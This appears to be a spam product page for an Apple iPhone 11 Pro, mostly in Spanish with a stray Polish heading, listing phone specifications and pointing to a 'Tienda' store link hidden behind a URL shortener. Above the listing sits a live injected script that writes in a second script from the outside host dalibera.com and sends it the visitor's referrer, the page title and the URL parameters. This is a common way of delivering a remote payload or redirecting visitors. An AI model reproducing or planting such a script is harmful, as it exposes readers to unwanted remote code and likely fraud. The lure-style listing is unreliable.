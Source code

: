 <script type="application/javascript">
document.write('<script type="application/javascript" src="//dalibera.com/X54TJ3Z4?se_referrer=' + encodeURIComponent(document.referrer) + '&default_keyword=' + encodeURIComponent(document.title) + '&'+window.location.search.replace('?', '&')+'&frm5f2fa534a45ce=script5f2fa534a45cf"><' + '/script>');
</script>

<img src="https://knwmeg.github.io/iphone/PL1.jpg"/>

## iPhone 11 PRO

Apple iPhone 11 Pro (64 GB, verde medianoche) [operador bloqueado] + suscripción de operador [Cricket Wireless] (crédito de tarjeta de regalo de Amazon de $ 10 / mes)

### Dane techniczne

Pantalla OLED Super Retina XDR de 5,8 pulgadas
Resistente al agua y al polvo (4 metros por hasta 30 minutos, IP68)
Sistema de triple cámara con cámaras ultra gran angular, gran angular y telefoto de 12 MP; Modo nocturno, modo retrato y video 4K hasta 60 fps
Cámara frontal TrueDepth de 12MP con modo retrato, video 4K y cámara lenta
Face ID para autenticación segura y Apple Pay
Chip A13 Bionic con Neural Engine de tercera generación
Carga rápida con adaptador de 18 W incluido
Carga inalambrica

Para obtener más detalles, consulte [Tienda](http://shorturl.at/dgnxM).
